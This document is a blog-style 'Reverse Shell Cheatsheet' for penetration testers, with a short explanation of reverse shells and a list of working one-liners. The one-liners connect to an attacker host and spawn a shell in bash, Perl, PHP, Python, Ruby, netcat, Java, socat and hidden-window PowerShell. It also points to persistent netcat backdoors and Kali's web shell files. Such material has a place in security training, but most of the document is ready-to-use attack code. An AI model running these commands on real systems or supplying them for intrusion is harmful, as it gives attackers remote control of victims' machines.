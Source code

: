 ```yaml
---
published: true
category: Cheatsheet
title: Reverse Shell Cheatsheet
---
```

## Reverse Shells

When penetration testing, hackers often find themselves in a compromised system with a command execution vulnerability. Whenever the opportunity persists, the attacker must establish a reverse shell. 

A **reverse shell** is an (insecure) shell session which establishes a connection initiated by a remote host. This is a **type** of shell where the attacker may communicate back to the remote host.

The attacking machine essentially acts as a client whilst the remote host acts as the server, creating a communication port on the victim. Once this connection has been established, the attacker can remotely execute commands. 

The attacking machine listens on a port which the connection is established on. 

This article will outline the most common reverse shells that can be used. Depending on what is available on the target system, one of the following scripting languages must be chosen. 

Please refer to the bottom of this page for web shells in Kali Linux.

### Bash

<pre>bash -i >& /dev/tcp/10.0.0.1/8080 0>&1</pre>

### Perl

<pre>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'</pre>

### PHP 

Please note, this assumes a TCP connection uses file descriptor 3. 

<pre> php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' </pre>

If a .php file is needed for a payload, refer to [this website](https://github.com/pentestmonkey/php-reverse-shell) for some examples. You can also find some in the web shells directory on Kali Linux.

### Python

Python 2.7

<pre> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</pre>

Refer to [this website](https://www.thepythoncode.com/article/create-reverse-shell-python) for more information about python reverse shells.

### Ruby 

<pre>ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'</pre>

### Netcat

If an attacker is lucky enough to find netcat on the compromised system, Netcat can be used to gain a reverse shell. If possible, installing the windows binary nc.exe can allow an attacker a persistent netcat backdoor. Read more about [this here](https://www.offensive-security.com/metasploit-unleashed/persistent-netcat-backdoor/).

<pre>nc -e /bin/sh 10.0.0.1 1234</pre>

If the incorrect version of netcat is installed, this command may be used to get a reverse shell. Please refer to [this website for more information](https://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498).

<pre>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f</pre>

### Java

<pre>r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()</pre>

### Socat 

Attacker:
<pre>socat file:`tty`,raw,echo=0 TCP-L:port</pre>
Client:
<pre>/dev/shm exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ip-address:port</pre>

### Powershell

<pre>powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("ip-address",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()</pre>

### Kali Linux Web Shell Files

Kali Linux has a variety of pre-installed web shells.

<pre>/usr/share/webshells</pre>

The above directory contains files which establish a reverse shell, some of which include:

**php**: /usr/share/webshells/php/

**Perl**: /usr/share/webshells/perl/

**Cold Fusion**: /usr/share/webshells/cfm/

**ASP**: /usr/share/webshells/asp/

**JSP**: /usr/share/webshells/jsp/

This is a screenshot of the directories on my local Kali Linux machine:

![webshells](https://imgur.com/1LQCTZc.png)

